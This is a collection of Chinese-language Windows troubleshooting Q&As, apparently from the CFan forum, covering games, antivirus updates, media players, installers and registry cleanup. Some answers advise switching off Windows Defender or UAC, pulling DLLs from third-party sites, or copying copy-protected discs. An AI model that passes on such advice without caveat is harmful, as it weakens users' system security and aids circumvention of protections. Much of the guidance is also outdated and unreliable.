问：今天打开魔兽时总是提示无法定位程序输入点wingui于动态链接库game.dll上，无法正常进入游戏了。请问这该如何解决？

答：出现这个问题，十之八九是因为系统中同时安装了地下城勇士游戏的外挂（dnf小妞1.2.exe），只要从控制面板中将该外挂程序卸载掉就可以正常进入魔兽游戏了。

## 卡巴斯基为何不能完成更新

问：我使用的是卡巴斯基2009杀毒软件，在更新病毒库时，每次都是更新100%后停止响应，总是无法完成更新。请问这是什么原因？

答：这可能是病毒库更新目录文件太多而导致文件无法正常读写而导致的问题，尝试将C:\Documents and Settings\All Users\Application Data\Kaspersky Lab\AVP8目录里面除Bases之外的所有文件夹中的文件清空后再进行升级即可。

## 无法打开 Office 加密文件

问：重新安装系统后，加密的Office文件就无法打开了，这些文件很重要而且还没有做备份。请问这该如何解决？

答：不知道你指的加密是系统自带的EFS加密还是Office自身的加密功能为文档添加了密码。如果是系统自带的EFS加密，那只有在备份了当前系统账户的数字证书及密钥的情况下才能将其打开，别无他法。如果只是使用Office自带的加密功能进行的加密，可以通过一些解密工具来解决问题。例如Advanced Office Password Recovery（下载地址：http://work.newhua.com/cfan/200914/ha_AOPRG.rar）就可以获得密码轻松打开。

来源：http://bbs.cfan.com.cn/thread-931597-1-2.html

## 为何 SOSO 工具条被安装到系统中

问：我平时使用电脑是很小心的，但是经常不经意间在IE工具栏中就安装上了SOSO工具条，删除后过不了几天又自动出现了。请问SOSO工具条是如何自动安装到系统中的？

答：这肯定是在安装某些软件时你没有留心而导致SOSO工具条被安装到系统中了。安装后也没有事，如果系统中安装了超级兔子或是360安全卫士、Windows清理助手等工具软件的话，直接对系统执行一次清理操作即可将其从系统中清除出去。

傻博士有话说：现在很多软件都捆绑了SOSO工具条、百度超级搜霸、谷歌工具条这类被称之为流氓软件的软件。随着流氓软件打击力度的增强，很多捆绑这类软件的工具软件在安装时都给出提示，让用户选择是否安装，但多数都是默认选择安装的。如果在安装这类工具软件时粗心大意，就会误安装捆绑软件。因此，现在在安装网上下载的软件时一定要看清楚每个步骤，遇到提示安装捆绑软件时，取消选择即可。此外，在下载软件时建议到华军软件园、天空软件站这样的大型下载站下载，如果软件中捆绑了插件，会给出提示的，安装时就能做到心中有数。

## Office 总是弹出保存对话框

问：我安装的是Office 2003，不知道什么原因导致现在无论在什么情况下，只要打开Office中的任意组件（Word、Excel等）都会自动弹出另存为对话框。请问这是什么原因？

答：这个情况一般都是键盘上的F12键有问题而导致的，例如该键被卡了障碍物导致不能自动弹出，这时就会出现上述故障，只要想办法让F12键弹出即可解决问题。

## 无法卸载会声会影

问：我在卸载会声会影X2时总是出错，提示信息为：Windows Installer service could not be accessed(无法访问Windows Installer服务)。也无法重新安装，同样提示出错。请问这是什么原因？

答：据描述信息来看，问题可能出在Windows Installer服务，它是微软提供的一项软件安装技术，很多软件的安装、卸载都必须依靠这项技术。请先按Win+R，回车后在打开的窗口中输入services.msc并回车，找到Windows Installer这项服务，如果“状态”不是“已启动”，请双击并在打开的窗口中将其启用即可。如果这样仍不能解决问题，请从http://www.newhua.com/soft/12688.htm下载安装最新版的Windows Installer程序，应该可以解决问题。

## 无法播放 RM、RMVB 电影

问：最新版Gomplayer，KMPlayer都无法播放RM、RMVB格式的电影，但AVI格式电影可以正常播放。请问这是什么原因？

答：你安装的可能是精简版播放器，没有RM、RMVB格式的解码器，因此而无法播放。只要到http://www.onlinedown.net/soft/15943.htm下载并安装RM、RMVB解码器，之后就可以正常播放了。

**问：** 我使用Easyboot封装Windows XP系统，在保存时总是出现错误，提示：引导文件“D:\封装工具库\dm947.ima不存在”，以及类似的另外几个错误提示。请问到底这是什么原因？

**答：** 这是因为Easyboot不能识别汉字目录而导致的，只要将目录设定在全英文名称环境下就可以正常工作了。

**问：** 我使用的是虚拟PC，我想启动还原磁盘，但在设置中却找不到设置还原磁盘功能的选项，记得以前是可以的。请问这是什么原因？

**答：** 这可能是你在控制台设置的权限设置中关闭了此项设置功能，只要重新开启即可：右击托盘区中的虚拟PC图标并选择“选项”，在打开的设置窗口中选择“安全”，在右侧窗口中取消选择所有项，保存设置。接下来再右击托盘区虚拟PC图标并选择具体的虚拟机，再选择“设置”，在打开的窗口中选择“还原磁盘”项即可进行设置了。

**问：** 安装了辛巴影子卫士2，安装后准备运行时出现错误，提示：应用程序初始化失败(0xc0000135)失败。请点击“确定”，终止应用程序。请问这是什么原因？

**答：** 0xc0000135错误是由于软件运行时需要微软的.Net Framework环境，而当前系统中又没有安装该组件就会出现软件不能运行的错误，一般都会报告0xc0000135这个错误代号。只要下载安装.Net Framework组件即可解决问题。不过，不同的软件对.Net Framework组件版本的要求不一样，一般新的软件安装最新版即可（下载地址： http://www.newhua.com/soft/34491.htm）。通常情况下，安装高版本的.Net Framework可以兼容低版本，而软件本身要求高版本，系统中安装的是低版本则不行。

傻博士有话说：现在，有很多软件都使用了微软的.Net Framework技术，这项技术可以让多种编程语言之间互通，例如，C#开发人员可以使用Visual Basic程序员编写的代码，反之亦然。而这些使用了.Net Framework技术编写的程序在运行时就需要系统中安装有.Net Framework环境，否则便无法正常运行并以报错的形式退出。有些老程序使用的是老版本.Net Framework平台开发的，而.Net Framework经历了多个版本，从V1.1、V2.0、V3.0到现在的V4.0 Beta1，通常在系统中安装了最新版本后即可解决问题。

来源：http://bbs.cfan.com.cn/thread-932156-1-6.html

**问：** 以前可以正常切换输入法，但最近不知道为什么无法通过Ctrl+Shift切换输入法了。请问如何解决？

**答：** 切换输入法快捷键默认就是Ctrl+Shift，而有时候安装一些输入法程序或是误设置系统参数会影响到该快捷键，出现无法使用该快捷键来切换输入法时，只要重新设置一遍即可：在控制面板中打开“区域和语言选项”，在打开的设置窗口中选择“语言”选项卡，再单击“详细信息”按钮，在打开的窗口中选择“设置”选项卡，再单击“键设置”按钮，在下面的操作列表中选择“在不同的输入语言之间切换”项，再单击“更改按键顺序”按钮，在打开的窗口勾选“切换输入语言”项，再选择快捷键为Ctrl+Shift即可。此外，对于输入法设置，推荐使用IME Tool（下载地址：http://download.pchome.net/system/tweak/detail-18912-0.html）这款工具，不管是设置快捷键还是设置输入法顺序、删除输入法等操作都非常方便，很多情况下系统自身的设置功能无法解决时，通过这款小工具可以轻松地解决。

来源：http://bbs.cfan.com.cn/thread-521485-1-2.html

**问：** 我们单位买了一张光盘，里面存放的是单位必须要使用的软件。我想将其中的软件安装文件备份下来，但是拷贝下来的一个文件只有几KB；在电脑中还无法运行。请问，如何才能将光盘中的文件全部备份下来？

**答：** 这是因为光盘使用了加密手段，你拷贝的往往是说明文件或是其他非主要功能的文件。要想拷贝加密光盘中的数据，方法有很多，比如你要是安装了Alcohol 120%的话，直接通过其内置的复制加密光盘数据功能即可将数据拷贝出来。此外，也可以从http://www.newhua.com/soft/3629.htm下载这款名为IsoBuster的工具进行拷贝，运行软件后直接打开光盘目录，其中的文件便会一览无余地显示出来了。

**问：** 以前在KMPlayer中可以通过鼠标右击播放画面选择“捕获”项来捕捉视频画面，但现在鼠标右击播放画面时，在弹出的快捷菜单中没有了捕获这个选项。请问这是什么原因？

**答：** 这是因为将KMPlayer的参数设置为“简易菜单”模式，一些高级参数设置都被隐藏了，只要重新启用高级参数模式即可：右击主窗口，点击弹出的菜单中的“选项”，选择“高级菜单”，现在再右击播放画面，在弹出的右键菜单中就会看到“捕获”选项了。

来源：http://bbs.cfan.com.cn/thread-940414-1-6.html

**问：** 我将瑞星升级到2009后，当瑞星随系统开机启动时，每次都会出现一个错误提示：Microsoft Visual C++ Runtime Library Runtime Error，并且每次升级病毒库都会出现此错误。请问这是什么原因？

**答：** Microsoft Visual C++ Runtime Library是微软系统自带的C++运行库，对于XP系统来说，主要有：msvcp50.dll、msvcp60.dll、MSVCP60D.DLL、msvci70.dll、msvcp70.dll、msvcp71.dll这几个文件。可以在正常系统中的系统盘中以msvc*.dll为关键字来搜索到这些文件。出现这个问题后，从其他正常系统中搜索到这些文件并将它们拷贝到出现问题电脑系统中的%systemroot%\system32目录中即可。此外，也可以直接在http://www.dll-files.com/dllindex/index.shtml网站搜索并下载这些文件。

来源：http://bbs.cfan.com.cn/thread-942840-1-7.html

**问：** 我使用Daemon Tools虚拟光驱软件，但在虚拟镜像时，总是无法生成新光驱盘符，手动设置时又提示：无法设置新的驱动器盘符。请问这是什么原因？

**答：** 只要按Win+R打开运行对话框，输入regedit并回车打开注册表编辑器，按Ctrl+F打开查找对话框，输入LowerFilters进行查找，找到后直接将其删除，按F3再重复查找并删除该项，重新启动系统后即可解决问题。注意，在操作注册表之前请做好备份操作。

来源：http://bbs.cfan.com.cn/thread-940655-1-8.html

**问：** 之前运行很正常，但今天打开会声会影时系统总是提示：安全性信息无效或已被修改，这个程序将停止执行，重新启动系统亦如此。请问这该如何解决？

**答：** 这个问题很多都是由于病毒修改了系统时间，而系统时间不正确时会声会影在运行时就会弹出这样的错误提示。因此，首先检查系统时间，如果时间不正确，尝试手工修改，如果系统时间无法修改过来，即可确定系统感染病毒，再转用杀毒软件进行病毒查杀，然后再更正系统时间即可解决问题。

**问：** 我安装了WinMount之后，在资源管理器中选中RAR压缩文件时就会在状态栏中显示这些文件信息。请问如何取消状态栏中显示这些信息？

**答：** 只要打开WinMount选项设置窗口，选择“文件关联”选项卡，取消选择“将WinMount整合到资源管理器”选项，保存设置即可。

**问：** 最近在安装大软件时总是提示“文件夹路径my pictures中含有无效的字符，之后就自动退出安装向导了，我的系统是Windows XP SP3。请问这是什么原因？

**答：** 这可能是由于系统的临时文件夹位置更换或是无效所致。在安装大文件时，安装向导需要将安装文件解压到临时文件夹然后再进行安装，而临时文件夹路径设置不当就会出现这样的情况。只要右击“我的电脑”并选择“属性”，在打开的中选择“高级”选项卡，单击“环境变量”按钮，在打开的设置窗口中重新指定环境变量TMP及TEMP这两项值为有效路径即可。

**问：** 我安装了联众世界，之后又将其卸载了，但是在添加或删除程序列表中总是显示有扩展组件残留项。请问如何才能将其彻底删除？

**答：** 按Win+R打开运行对话框，输入regedit并回车打开注册表编辑器，依次定位到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall]，在下面的子键中找到联众世界相关项，直接将其删除，重新启动系统后就不会再看到添加删除程序中有关联众世界的相关项了，最后再注册表中通过F3功能键打开查找框，分别以下关键字进行搜索：GlobalLink、glgame、lianzhong_yahoo、zcomsetu、HGNOTFycn18、hgsartcn18、HanGameplugincn18，搜索到后直接删除，最后再打开联众安装目录，手工删除可能存在的残留文件即可。

**问：** 我下载了千千静听播放器的安装软件，但是系统中安装的Windows Defender总是报毒，我从华军软件园、官方网站下载的安装包均如此。请问这是什么原因？

**答：** 这是因为千千静听播放器的安装包中捆绑了百度搜霸插件的原因，由于安装时可以选择不安装百度搜霸，可以直接先将Windows Defender暂时关闭，等安装完毕后再重新开启。

**问：** 我使用金山词霸翻译时，任何一个单词的音标都会显示为乱码。请问这是什么原因？

**答：** 金山词霸中音标出现乱码现象是由于Windows不能调用到词霸安装目录中的音标字体ksphonet造成的，有三种解决方案：

- 方法一：将词霸安装目录中的ksphonet字体文件安装到系统分区中Windows文件夹下的fonts文件夹中，先将fonts文件夹打开，然后使用文件菜单下的“安装新字体”，进行字体安装即可。
- 方法二：单击“开始→程序→新建office文档”，新建一篇office空白文档，在其中任意敲一些英文字母，然后把这些英文字母选中，再从字体选择框中分别选择一些英文字体（建议从最后一种字体开始，即w开头的字体），如果那个英文字体把这些字母变成乱码，就在WindowsFonts中把这种字体删除即可。
- 方法三：删除fonts文件夹中的ksphonet字体，重新启动计算机，词霸会自动调用安装目录中的字体备份。

## 安装炫舞出现7 Zip CRC Error

**问：** 我从网上下载了QQ炫舞，在安装时总是提示7 Zip CRC Error错误提示，请问这是什么原因？

**答：** CRC校验是用来检测当前文件与源文件是否为同一个文件，中途假如被修改过，检验出的CRC值就会不一样，而你遇到的问题是源安装文件在安装时需要解压，解压后得到文件被7 Zip压缩软件进行CRC检验，出现了前后不一致的问题。出现这种情况一般有以下两种原因：系统临时文件夹已满，安装文件解压后的临时文件受到损坏，其次，下载的安装文件本身就有错误。知道了原因后，解决方法就简单了：清空系统临时文件夹（可以借助360安全卫士或是超级兔子来实现），或者重新下载安装文件进行安装即可。

傻博士有话说：CRC检验经常被应用在压缩或是解压缩过程中，除了7 Zip之外，经常还会在WinRAR/WinZIP等压缩工具的压缩、解压缩过程中出现。当出现CRC校验错误后，首先应该检查下载源文件是否有问题，再检查系统临时文件夹是否存满。此外，当在安装软件时遇到这类故障，还可以尝试直接使用压缩软件将安装包解压，如果能解压，然后再运行其中的文件即可。譬如像Foxmail，Google Chrome这样的准绿色软件的安装包就可以直接解压然后直接运行。

## 无法压缩2GB文件

**问：** 我在使用WinRAR压缩文件时，有一个2GB左右的文件，每次在压缩时都会在到一半时提示配额不足，而压缩其它文件则一切正常。请问这是什么原因？

**答：** 这肯定是你给磁盘设置了配额功能而导致WinRAR可用磁盘配额空间不够所致。解决方法：右击系统分区（WinRAR在压缩文件时需要使用系统临时文件夹）并选择“属性”，在打开的窗口中选择“配额”选项卡，取消选中“启用配额管理”选项，保存设置即可。

## KMPlayer无法播放RMVB电影

**问：** 我安装的是KMPlayer播放器，但是在播放RMVB格式电影时总会跳出错误，提示信息为：Microsoft Visual C++ Runtime Library出错，而播放其他格式视频时又正常。请问这是什么原因？

**答：** 你安装的可能不是完整版KMPlayer播放器，请从http://www.newhua.com/soft/36199.htm下载完整增强版，就不会出现这样的问题了。此外，也可以直接从http://www.newhua.com/soft/52770.htm下载完美解码，安装后也可以解决系统中因没有解码器而无法播放部分视频的问题。

来源：http://bbs.cfan.com.cn/thread-970628-1-2.html

## 小红伞不能更新

**问：** QQ可以上线、网页可以打开，但是小红伞就是不能更新，这个问题发生在半个月没用电脑后，以前一直可以正常更新。请问这该如何解决？

**答：** 这是因为使用了免费版的小红伞，而小红伞免费版在长期不联网升级后，超过了授权有效期后，小红伞的病毒库就不能升级了。如果不嫌麻烦，直接重新下载最新版的安装包重新安装一遍即可。

## 无法更新Windows Search

**问：** 我在Windows XP系统中安装了Windows Search程序，而在更新时总是提示：安装失败。重新运行安装程序之前请确保已启用终端服务。请问这是什么原因？

**答：** 按Win+R打开运行对话框，输入services.msc并回车打开服务管理器，找到terminal service服务，直接将其启用即可正常更新Windows Search了。

## WinRAR为何不能直接删除压缩包中的文件

**问：** 以前我经常直接用WinRAR打开压缩包，然后将其中不要的文件直接删除，但最近碰到的一些压缩包中的文件无法直接删除。请问这是什么原因？

**答：** 这是在压缩时选用了锁定文件项，出现这个现象后，只有直接解压，然后删除不要的文件，最后再重新打开。在WinRAR中压缩文件时，打开设置选项窗口中直接勾选“锁定压缩文件”项，保存设置即可，这样压缩的文件以后直接使用WinRAR打开时就不能删除其中的文件了。

## 恢复AVG误删除文件

**问：** 今天刚安装AVG杀毒软件，运行后它误将我的一个重要文件删除了，之后我什么也没敢动。请问，这种情况下有没有办法将误删除的文件找回来？

**答：** 打开AVG，依次选择AVG工具栏“History→Virus Vault”（历史→病毒隔离区）打开历史记录窗口，在此可以看到从上次清空到现在AVG的病毒查杀记录，选中其中我们想要恢复的文件，选择恢复到指定目录进行恢复操作后打开目标目录便可找到被误删除的文件了。

傻博士有话说：几乎每款杀毒软件都提供了隔离区，隔离区主要是由于当前杀毒软件的病毒库还没有清杀该病毒的能力，先放到隔离区中待日后升级了病毒库后回头再进行处理。它类似于我们平时使用的回收站，平时删除的染毒文件一般都被暂且放在隔离区并在指定的时间后再集中删除，而在系统自动删除之前我们便可以从隔离区将误删除的文件恢复到硬盘中。

## 龙卷风无法收听部分电台

**问：** 我下载安装了龙卷风网络收音机，里面内置了很多电台，但能正常收听的没几个。请问这是什么原因？

**答：** 这可能是你的系统中没有安装RealPlayer播放器，要想正常收听所有龙卷风的电台需要安装，假如不想安装RealPlayer播放器，也可以通过安装暴风影音播放器来解决问题。

## 系统总提示autochk错误

**问：** 我安装的是Windows XP系统，现在每次启动时都会出现这样的错误提示框：autochk program not found -skipping autocheck，请问该如何解决？

**答：** 将autochk解压并放到C:\Windows\System32目录，接下来打开注册表编辑器依次找到[HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager]看看右窗口有没有BootExecute这一项（如果没有就新建此项：在右侧窗格中右击选择“新建→字符串值”，数值名称为BootExecute），然后在该项上点右键，选择“修改”，在数值数据中填入autocheck autochk *，重新启动系统即可。

## Windows 7下Everything不能随机启动

**问：** 我一直使用Everything这款搜索工具，在Windows XP中可以正常设置随系统启动，但在Windows 7系统中却总是无法设置为自动启动。请问这是什么原因？

**答：** 要想设置某款软件随机启动，在Windows 7中需要使用管理员权限才行，此外，对于Everything这款软件，要想设置随机启动，还需要关闭系统的UAC即可（单击“开始→入门→更改UAC设置”，在打开的窗口中设置为“从不通知”）。

## 玩魔兽争霸没声音

**问：** 我一直玩魔兽争霸游戏，以前运行正常，但今天打开时系统提示“不能初始化声音设备，声音将被取消”，之后就不能正常发出声音，而其他软件却运行正常。请问这该如何解决？

**答：** 其他软件可以正常使用，说明问题并不在声卡驱动程序上，尝试重新安装魔兽软件看是否能解决问题，假如魔兽软件组件损坏也会出现类似的问题。也有可能是系统中安装的防火墙软件拦截所致，在防火墙中设置将魔兽添加到排除列表中，然后重新启动系统应该可以解决问题。此外，有些情况下安装的某个软件与其产生冲突也会出现这种情况，通过逐一排查法来尝试解决。现在不少朋友使用的Windows Vista或Windows 7系统都支持单个设置应用程序的声音，因此，也有可能会出现其他程序声音正常但某个程序声音不正常，这时可以打开声音设置中心检查一下。

来源：http://bbs.cfan.com.cn/thread-296408-1-2.html

## 无法安装Visual C++ 6.0

**问：** 我准备在系统中安装Visual C++ 6.0，但在安装时总是弹出错误提示框，提示信息：BOOTSTRP导致访问侵犯在IMSCUI.DLL地址0x3c451c04上。请问这是什么原因？

**答：** 这肯定是与中文输入法有冲突所致，只要将输入法切换为英文输入法再重新进行安装即可。不仅是程序安装会与输入法有冲突，很多软件在运行时也经常与输入法冲突，通常只要切换到英文输入法状态下即可解决问题。

## Word运行出错

**问：** 我今天在使用Word时系统弹出错误提示框，提示Word安全模式错误问题，删除Word后重新安装后亦提示错误。请问这该如何解决？

**答：** 这一般是由于Word的模板文件出现了问题所致，打开系统盘下的Documents and Settings\登录用户名\Application Data\Microsoft\Templates，找到其中的normal.dot并将其直接删除即可，重新启动Word后系统会自动重新创建该文件。

## 输入法在网页界面总是不能切换

**问：** 最近遇到一个奇怪的麻烦事，安装的输入法在打开的文档中可以正常切换，但换到网页界面时就无法切换了。请问这是什么原因？

**答：** 这可能是病毒感染后导致输入法组合损坏所致，请按以下思路解决：

- 第一步：通过系统搜索功能查找ctfmon.exe程序，如果找不到请从其他同版本操作系统中查找，拷贝到自己系统中的C:\WINDOWS\system32目录中。
- 第二步：按Win+R，输入msconfig并回车，选择“启动”选项卡，查找是否有ctfmon项，有则直接勾选该项，若没有发现此项，请按Win+R，输入regedit并回车，依次定位到[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]，在右侧新建名字为ctfmon.exe的字符串值（REG_SZ），并将其值设置为C:\WINDOWS\system32\ctfmon.exe。

经过上述两个步骤应该可以解决问题。

傻博士有话说：ctfmon.exe进程（用户输入服务，运行后在任务管理器中可以看到）是微软的Office软件的一部分，随着Windows的更新而安装。它负责激活用户输入进程，以及Office的语言条。默认情况下它随着Windows的启动而载入，即使所有的Office程序关闭，它也一直在后台运行，监控所有的活动的窗口，随时准备提供输入服务。很多朋友误认为这是个病毒，当在进程列表中终止后，就会出现输入法工作不正常的情况。当然，也有相关病毒仿冒该进程（及对应的文件），该文件正常情况下是位于System32目录中，常规大小为15360字节，若发现在其他目录，大小与标准值不符就值得怀疑了，建议对系统进行杀毒处理。

## 小红伞为何不能升级

问：一直使用的小红伞最近几天总是无法成功升级，在升级过程中总是显示正在下载，但下载速度很慢，几个小时都无法将升级包完整地下载下来，最后就会自动结束。请问这是什么原因？

答：这有可能是更新服务器有问题所致，换个时间进行更新应该可以，如果一直无法更新，不妨手工更新：先从http://www.newhua.com/soft/31350.htm下载离线升级包（不要解压），接下来打开小红伞，在主窗口中单击菜单Update→Manual update，找到之前下载的升级包文件并直接进行升级即可。

来源：http://bbs.cfan.com.cn/thread-988135-1-1.html

## KMP播放时有噪音

问：一部网上下载的电影，在使用KMP播放时会出现噪音，而使用媒体自带的播放器播放时却正常。请问这是什么原因？

答：出现这种情况，很大可能性是与系统中的解码器相关，假如安装了多个播放器，可能因为自带的解码器之间冲突而引起的。先尝试将KMPlayer播放器的参数恢复至默认值：按F2打开参数设置窗口，单击“初始化所有设置”按钮即可。如果这样仍不能解决问题，请尝试先将所有安装的播放器卸载，最后再重新安装KMPlayer播放器官方版（下载地址：http://www.kmplayer.cn）。

## TC中中文文件为何不能按顺序排序

问：我用安装的Total Commander替代系统自带的资源管理器，但在使用过程中出现了小问题：英文文件可以正常地按照文件名的拼音顺序进行排序，而中文文件名却不能按照其读音对应的字母顺序排列。请问如何才能让文件按文件名排序？

答：这主要是参数设置不正常所致，只要打开TC的设置窗口，选择“显示→排序”，在“排序方式”中设置为“字母顺序和数字”即可。

## 为何有的歌曲不能正常显示歌词

问：在网上下载的歌曲，之后又借助千千静听的智能歌词下载功能下载了歌词，但是将它们拷贝到我的MP3播放器中播放时，有的歌曲可以正常显示歌词，而有的则不能正常显示歌词。请问这是什么原因？

答：要想在MP3播放器中正常显示歌词，则需要保证下载的歌词文件的文件名与歌曲的文件名一致，那些不能正常显示歌词的歌曲，检查一下对应的歌词文件名是否与歌曲名一致，如果不一致，只要手工修改一下即可正常显示了。

来源：http://bbs.cfan.com.cn/thread-982384-1-6.html

## 为何系统会提示恶意防火墙

问：我安装了金山网镖防火墙，之后系统桌面上就会自动弹出恶意防火墙的提示，之后系统便会自动关机，而把金山网镖卸载后就显示该提示了。请问这是什么原因？

答：系统中同时安装了其他品牌的安全类工具，就可能会出现这样的提示。由于杀毒软件之间多数情况下不兼容，系统中通常是无法安装两个品牌下同类安全工具（例如同时安装了两个品牌的杀毒软件客户端，或是同时安装了两个品牌的防火墙）就会出现不兼容的情况，只要卸载掉一个即可解决问题。

来源：http://bbs.cfan.com.cn/thread-982514-1-7.html

## 穿越火线不能全屏

问：我的系统是Windows 7，在玩穿越火线时总是不能全屏，我试了多种方法均无法解决问题。请问如何让穿越火线在Windows 7系统中能够全屏运行？

答：这一般是与显示器的分辨率设置有关，例如默认屏幕分辨率设置得过高，而穿越火线最高分辨率只有1024×768，因此出现不能全屏运行的情况，这种情况下只要先将屏幕分辨率调低一些（例如调整为1024×768或更低）即可进入全屏模式了，以后使用时再重新改回屏幕分辨率即可。

傻博士有话说：很多游戏在运行时都会对显示器的分辨率有要求，有很多早期推出的游戏默认只能支持800×600像素的屏幕分辨率，在玩游戏时，只能通过修改屏幕分辨率来解决问题。如果嫌来回设置麻烦，推荐使用一款专门调整显示器的软件代劳—PowerStrip（下载地址：http://www.onlinedown.net/soft/2760.htm），它可以很方便地调整屏幕分辨率，甚至有些时候无法调整的尺寸它也能实现。

## 玩游戏界面出现灰色一片

问：我的电脑配置不低，比《梦幻诛仙》的要求高多了，但是在玩这款游戏时进入画面时总是灰色的一片，而玩其他游戏一切正常。请问这是什么原因？

答：出现这类问题一般考虑以下两个方面，其一：显卡驱动程序，请在设备管理器中检查显卡驱动程序是否正确安装，可以尝试更新显卡驱动程序。如果排除显卡驱动程序的原因，问题有可能出在DirectX中，假如该组件出现损坏或是丢失文件后也会出现类似问题，建议从http://www.newhua.com/soft/5288.htm下载安装最新版的DirectX程序。结合这两个解决思路，这类游戏画面不正常的问题一般都能解决。

## McAfee安装时出现1920错误

问：之前安装过McAfee的低版本，卸载后重新安装McAfee 8.5企业版时总是提示1920错误，选择“忽略”后虽然安装上了但是无法升级。请问这该如何解决？

答：进入McAfee官方页面：https://secure.nai.com/apps/downloads/my_products/login.asp?region=cn&segment=enterprise，输入产品授权号码后点击“提交”，在打开的页面中下载autoupdate，安装之后便可进行更新了。

## PQ无法给硬盘分区

问：我们单位最近刚买加一块1TB的硬盘，新硬盘没有分区无法使用，之后使用PQ对其分区，但在PQ中虽然可以看到1TB的容量，但是在分区时总是出现110#错误。请问这是什么原因？

答：PQ最新版最大只支持到500G硬盘，而1TB的硬盘它显然不能对其分区。对于这种大硬盘，可以直接使用系统安装光盘对其分区、格式化操作，假如想挂载在操作系统中进行分区，也可以使用diskgenius、PM等分区工具进行分区。

## 魔兽运行时总是黑屏

问：我在Windows 7系统中玩魔兽时系统问题黑屏，同时还会提示：显示器驱动程序Intel graphics accelerator drivers for windows Vista已停止响应，并且已成功恢复。请问这该如何解决？

答：这种问题通常都是由于显卡驱动程序与当前操作系统不兼容所致，只要到显卡官方网站下载最新版本显卡驱动程序，安装上即可解决问题。此外，也可以先将显卡驱动程序卸载，然后通过Windows 7系统的更新功能查找显卡驱动程序并安装，这样就不会出现与系统不兼容的问题了。

## 无法卸载Acronis Disk Director Suite

问：之前安装了Acronis Disk Director Suite这款软件，感觉不好用想将其卸载，尝试了多种方法（包括使用优化大师）均无法将其卸载掉。请问如何才能将其卸载掉？

答：如果优化大师都无法卸载，那建议你手工卸载：先到软件安装目录将安装文件删除，接下来再打开注册表编辑器，定位到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall]，在该键下面找到残留的信息将其删除，最后在注册表中连续查找acronis项，找到一项删除一项，直至注册表中没有此项即可。

## 闪盘数据复制到硬盘提示权限问题

问：我使用UBackUp这款闪盘备份软件将闪盘中的数据拷贝到硬盘中时，系统总是提示“输出目录不能写入，请检查权限！”。请问这是什么原因？

答：首先检查你使用的系统账户身份，如果不是管理员账户身份，请更换管理员账户身份登录系统，然后尝试拷贝，如果拷贝数据的目标目录是NTFS格式，在没有给当前系统账户赋予有效读取权限时，也是无法执行数据拷贝操作的。只要右击目标文件夹并选择“属性”，在打开窗口中选择“安全”选项卡，然后为当前账户赋予读、写权限即可。

傻博士有话说：操作系统版本越高（例如Windows Vista/Windows 7）以及NTFS格式的磁盘分区，系统在权限问题上越来越严格，没有获得相应的权限就无法执行相应的操作，诸如读、写、修改等操作，通常遇到权限问题时，首先要确保使用的是系统管理员账户，接下来再检查当前系统账户是否被赋予了对目标位置的操作权限。此外，如果平时操作电脑时经常遇到需要为当前账户赋予权限的问题，不妨将“右键获得所有权.reg”合并到注册表中为鼠标右键添加一个快捷键，以后只要直接右击目标文件夹或是文件选择“管理员取得所有权”项即可为当前管理员账户赋予操作权限了。

## Virtual Drive Manage出现0050蓝屏

问：我在使用Virtual Drive Manage虚拟光驱时总是出现蓝屏，错误信息中显示VDD-X86.SYS，请问这是什么原因？

答：按Win+R打开运行对话框，输入cmd打开命令提示符窗口，输入以下命令：sc stop VirtualDrive，再输入：sc delete VirtualDrive，这个步骤是先将虚拟光驱驱动文件删除。接下来打开控制面板到添加或删除程序中删除KB955704系统补丁（此补丁与虚拟光驱有冲突），然后重新安装一次即可正常工作了。

## 系统出现Packet.dll错误

问：系统中安装的P2P终结者，之前使用一切正常，但今天在使用时总是出现错误，信息为：无法定位程序输入点PacketGetReadEvent于动态链接库packet.dll上。请问这该如何解决？

答：这可能是Packet.dll文件损坏或是丢失所致，而该文件是很多应用程序正常运行的保证。解决方法很简单：从http://www.dll-files.com/dllindex/dll-files.shtml?packet下载该文件并将其放到系统分区下的System32文件夹中，在“运行”对话框中输入“regsvr32 系统盘\Windows\System32\packet.dll”注册该文件即可。

## 刻录的CD音量不一

问：我使用Nero刻录了一张CD在车上播放，发现每首歌曲的音量均不一样大，这是不是我使用的Nero软件有问题，如何才能让刻录的歌曲每首的音量均衡呢？

答：这个问题不在Nero软件上，在刻录之前应该先使用MP3Gain（下载地址：http://www.skycn.com/soft/8924.html）对所有的歌曲进行音量统一设置：先将所有歌曲添加到列表中，再设置好统一的音量标准，例如使用默认的89dB，直接单击菜单“更改增益→应用专辑增益”即可。这样调整了所有歌曲的音量后再使用Nero刻录成CD后播放时就不会出现音量大小不一的情况了。

## 公式编辑器出现乱码

问：使用Office自带的公式编辑器编辑公式时发现公式部分总是出现乱码或是一个长长的“口”字。请问这是什么原因？

答：Office公式编辑器需要系统中有Symbol字体的支持才行，出现乱码最大的原因就是系统中没有这款字体所致，可以按下述思路来解决：如果手头有Office安装光盘，直接使用安装光盘修复安装

## Ramdisk虚拟硬盘中的文件会自动消失

问：我使用Ramdisk软件虚拟了一个高速硬盘，在该硬盘上新建了TMP及Temporary Internet Files两个文件夹，当重新启动系统后，TMP文件夹自动消失，而另一个文件夹却安然无恙，请问这是什么原因？

答：Ramdisk的工作原理就是将内存中的空间虚拟成硬盘，因此，当系统重新启动后，因为内存掉电后会自动清空所有文件，虚拟出的硬盘空间中的数据也会随之消失。而另一个文件之所以“不会消失”，主要是你已经将浏览器的临时文件夹移至虚拟硬盘中，而当重新启动系统后系统会自动建立该文件夹，表面上看好像没有被删除一样，其实是删除后系统自动重新建立的。所以，在使用Ramdisk或是类似软件虚拟出硬盘后，不要将重要数据保存进去，防止重新启动后丢失。适合将系统临时文件夹、下载软件的临时缓存等设置到这个虚拟硬盘中以提高运行速度。

## Process Explorer 无法替代系统进程管理器

问：我在系统中安装了Process Explorer程序，但总是不能替代系统自带的进程管理器，在替代时提示：Error replacing Task Manager:拒绝访问。请问这是什么原因？

答：这可能是安装了注册表监控、锁定类软件导致注册表关键项不能被修改[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options]。出现这个问题时，检查是否安装360安全卫士、直接将其暂时停用（或者暂时卸载），待替代了系统进程管理器后再恢复360安全卫士即可。

